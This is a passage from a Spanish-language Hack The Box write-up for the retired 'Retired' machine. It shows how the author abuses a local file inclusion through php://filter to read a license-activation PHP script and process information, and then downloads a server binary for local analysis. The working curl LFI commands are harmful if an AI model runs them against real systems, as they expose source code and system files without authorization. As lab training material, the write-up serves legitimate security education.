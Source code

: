 ![](/assets/images/htb-retired/retired3.PNG)

```
*Actualmente desarollando para EMUEMU (lo busque en google pero no hay nada). Si nos compraste una consola OSTRICH 
y quieres participar en el siguiente paso puedes activar tu licencia con la app "activate_license"
Un archivo de licencia contiene una llave de 512 bits que está en el paquete de la consola OSTRICH.*
```
Generamos una llave con openssl `openssl genrsa -out license.key 512` y la subimos
`/POST a /activate_license.php || datos -> name="licensefile"; filename="license.key" || contenido -> la llave`

Nos redirige a /activate_license.php que no devuelve ningun output. Pero podemos ver dicho archivo con el LFI.
```console
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=activate_license.php | base64 -d

<?php
if(isset($_FILES['licensefile'])) {   // Si el archivo que se sube es 'licensefile'
    $license      = file_get_contents($_FILES['licensefile']['tmp_name']);  // $license = "license.key"
    $license_size = $_FILES['licensefile']['size'];	// $license_size = 512
    $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP); // crea un socket
    if (!socket_connect($socket, '127.0.0.1', 1337)) {      // Que escucha en el localhost en el puerto 1337
        echo "error socket_connect()" . socket_strerror(socket_last_error()) . "\n";}
    socket_write($socket, pack("N", $license_size)); // empaqueta el tamaño en un ulong 32 bits
    socket_write($socket, $license);  // escribe en el socket ese "license.key" con su tamaño
    socket_shutdown($socket); socket_close($socket);}?> // cierra el socket.
```
Es decir tenemos un socket que le pasa a un programa nuestro archivo ¿Pero a cual?. Podemos tirar de ese archivo que creamos antes con el LFI...
```console
└─$ cat proceses | grep -E "activate|license"
activate_licens -> 413

└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/proc/413/cmdline | base64 -d
/usr/bin/activate_license1337 
```
Asi que nos traemos dicho bianrio a nuestro sistema
```console
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/usr/bin/activate_license | base64 -d > activate_licens
└─$ chmod +x  ./activate_licens 
└─$ ./activate_licens
Error: specify port to bind to  
```